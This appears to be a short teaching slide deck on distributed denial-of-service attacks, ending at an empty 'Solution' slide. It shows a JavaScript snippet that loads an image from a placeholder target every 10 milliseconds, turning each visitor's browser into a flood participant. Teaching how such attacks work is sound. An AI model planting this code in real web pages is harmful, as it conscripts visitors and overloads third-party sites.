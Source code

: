 
---


# Distributed Denial of Service (DDoS)

---


## What Is It?

  * Common attack 
  * Making many systems involved
  * If not protected JavaScript would be a DDoS weapon 

---


## Sample Malicious Code

```javascript
    function flood_attack() {
      var TARGET = 'target_website.com'
      var URI = '/index.php?'
      var picture = new Image()
      var rand = Math.floor(Math.random() * 1000)
      picture.src = 'http://'+TARGET+URI+rand+'=val'
    }
    setInterval(flood_attack, 10)
```


---


## Sample Malicious code, cont'd

  * Creates an image 100 times per second
  * Each visitor of the website containing this code would be a participant to attack to the target_website


---


## Mechanism

![image of ddos1](../images/ddos1.png) 


---


## Solution
